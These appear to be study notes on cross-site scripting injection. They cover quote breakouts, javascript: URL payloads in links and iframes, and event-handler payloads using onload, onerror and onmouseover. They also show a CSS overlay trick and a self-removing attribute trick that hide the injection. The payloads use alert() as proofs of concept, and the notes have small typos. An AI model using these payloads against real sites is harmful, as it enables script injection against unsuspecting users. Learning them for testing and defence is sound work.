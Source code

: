 + Break out With
 1. `'` - singe qutoes:  `'(payload)`
 2. `'` - double qutoes: `"(payload)`
 3. Space Characters: `(space, \f, \n, \r, \t)`

+ Examples
 - Basic: `"><script>alert(document.domain)</script>`
 - Basic: `"</textarea><script>alert(document.domain)</script>`


       ============================================================


  **2. URLs**
* Uses: Html Attributes, Html Tags, JS Functions, URL Schemes
* Note that `javascript:alert()` or `"javascript:alert()"` should work regardless of quotes

+ Potential Tag Targets 
 - Link:   <a href="{{input_from_url}}">Link</a>
 - iFrame: <iframe src="{{input_from_url}}"></frame>
 
+ Examples:
 - Basic: `javascript:alert(document.domain)`

+ Sample Results that pull from URL:

 - location = 'javascript:alert()'
 - <iframe src=javascript:alert()></iframe>
 - <a href=javascript:alert()>Link></a>
 
+ `<h1>` Elements is _NOT going to work_ cause it _doesn't host content_ from another webpage


       ============================================================


  **3. Event Handling**
* Uses: CSS, Events, Event Handling, Html Attributes, JS Fucntions, URL Encoding
* See cheat sheet _xss-cheat-sheet.pdf_ for more

+ Sample Events
 - _Onoload_: executes given javascript function when tag loads
  * Body Tag Example: `<body onload=alert(‘Welcome to Hacking Articles’)>`
 - _onerror_
  * `<img src=invalid onerror=alert()>`
 - _Onmouseover_: when a user moves his cursor over a specific text
  * `<a onmouseover=alert(“50% discount”)>surprise</a>`
 - _Etc._
 

+ Examples
 - `'onload=alert'()`  --->  `class ='title 'onload'='alert()'`


+ Use **CSS Styling** to change _how things appear_ on the website
 - Can use `style`                                                           v--- url encoding
 - Example: `'onmouseover=alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`
                                                                             ^--- % is \x25
 - Self-Delete `style`: `"onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');`
  * can put this  in between `onmouseover=` and `alert();`
  